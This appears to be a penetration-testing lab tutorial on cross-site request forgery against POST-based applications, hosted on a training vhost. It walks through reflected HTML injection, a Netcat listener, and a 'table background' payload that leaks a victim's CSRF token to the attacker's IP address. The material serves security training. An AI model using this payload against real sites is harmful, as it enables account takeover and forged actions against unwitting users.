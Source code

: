# Cross-Site Request Forgery (POST-based)

The vast majority of applications nowadays perform actions through POST requests. Subsequently, CSRF tokens will reside in POST data. Let us attack such an application and try to find a way to leak the CSRF token so that we can mount a CSRF attack.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

After authenticating as a user, you'll notice that you can delete your account. Let us see how one could steal the user's CSRF-Token by exploiting an HTML Injection/XSS Vulnerability.

Click on the "Delete" button. You will get redirected to `/app/delete/<your-email>`

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Notice that the email is reflected on the page. Let us try inputting some HTML into the _email_ value, such as:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Let us first instruct Netcat to listen on port 8000, as follows.

```shell-session
$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.
